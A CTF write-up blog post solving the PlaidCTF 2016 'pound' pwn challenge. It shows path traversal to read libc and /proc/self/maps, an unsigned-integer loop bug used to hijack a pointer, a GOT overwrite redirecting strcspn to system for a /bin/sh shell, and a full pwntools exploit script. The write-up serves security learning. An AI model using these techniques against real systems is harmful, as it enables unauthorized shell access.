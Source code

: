 ```yaml
---
layout: post
alias: "/blog/2016/04/18/plaidctf-2016-pound/"
title: "PlaidCTF 2016 pound"
date: 2016-04-18T06:00:03+09:00
tags: [ "ctf", "pwn", "writeup", "plaidctf" ]
---
```


I like the gimmick to give the source code and compiled binaries.

## solution

### host.py

To get some required information, choose `1. Read Trump article` and send a relative path from `./tweets`.
You may want to read the paths:

-   `../pound.c`
-   `../../../../lib32/libc.so.6`
-   `../sims/sim-XXXX`
-   `../../../../proc/self/maps`

### pound.c

To make a vulnerability, you can use `0u`.
If `#define L1 0u`, `for (i=0; i < L1-1; i++)` becomes `for (i=0; i < 0xffffffff; i++)` by mixing signed and unsigned integers.

To be able to read/write somewhere, use the `char *announcement;`.
If you can modify this, read/write are done by `0. Print state`, `4. Create Announcement`.
Now, in `2. Simulate Propagate Forward` or `3. Simulate Propagate Backward`, the first loops don't terminate until it reaches a null dword.
So if you make `L1` and `L2` to `0u`, fill `char s1_name[STATE_SIZE_LEN];` and `char s2_name[STATE_SIZE_LEN];` with positives, it will reaches the `char *announcement;` and `int announcement_length;`.
When you use `2. Simulate Propagate Forward` with amount $k$, the null dword and the previous dword are increased by $k$.

To get shell, we need to know libc base address and let to call `system` with `/bin/sh`.
The both read/write can/should be done at once.
Make the `announcement` a pointer to the GOT, then read, and write the same address.
You should write `/bin/sh` and the address to `system` with `if (fgets (global.announcement, len, stdin) == NULL)` in `void create_announcement ()`, as the succeeding `strcspn(global.announcement, "\n")` acts as `system("/bin/sh", "\n")`.

### note

At this time, the GOT was like below.

``` sh
$ objdump -R sim

sim:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
0804affc R_386_GLOB_DAT    __gmon_start__
0804b040 R_386_COPY        stdin@@GLIBC_2.0
0804b060 R_386_COPY        stdout@@GLIBC_2.0
0804b00c R_386_JUMP_SLOT   printf@GLIBC_2.0
0804b010 R_386_JUMP_SLOT   strcspn@GLIBC_2.0
0804b014 R_386_JUMP_SLOT   free@GLIBC_2.0
0804b018 R_386_JUMP_SLOT   fgets@GLIBC_2.0
0804b01c R_386_JUMP_SLOT   malloc@GLIBC_2.0
0804b020 R_386_JUMP_SLOT   __gmon_start__
0804b024 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804b028 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804b02c R_386_JUMP_SLOT   __isoc99_sscanf@GLIBC_2.7
0804b030 R_386_JUMP_SLOT   setvbuf@GLIBC_2.0
0804b034 R_386_JUMP_SLOT   rand@GLIBC_2.0
```

By the way, what was `int secret;`?

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('sim')
libc = ELF('libc.so.6')

p = remote(args.host, args.port)

p.sendline('2')
p.recvuntil('[Smaller] State 1 Size:')
p.sendline('0u')
p.recvuntil('[Larger] State 2 Size:')
p.sendline('0u')

p.recvuntil('Enter the name of the first state:')
p.send('A' * 512)
p.recvuntil('Enter the name of the second state:')
p.send('A' * 512)
p.recvuntil('Enter Your Choice: ')
p.sendline('')

log.info('strcspn got: ' + hex(elf.got['strcspn']))
p.recvuntil('Enter Your Choice: ')
p.sendline('2')
p.sendline(str(elf.got['strcspn'] - 21))

p.recvuntil('Enter Your Choice: ')
p.sendline('2')
p.sendline(str(13))

p.recvuntil('Enter Your Choice: ')
p.sendline('0')
p.recvuntil('PSA: ')
p.recv(16)
libc_base = u32(p.recv(4)) - libc.symbols['fgets']
log.info('libc base: ' + hex(libc_base))

p.recvuntil('Enter Your Choice: ')
p.sendline('4')
p.recvuntil('Enter the length of your announcement: ')
p.sendline(str(13))
p.sendline('/bin/sh\0' + p32(libc_base + libc.symbols['system']))

time.sleep(1)
p.sendline('id')
p.interactive()
```
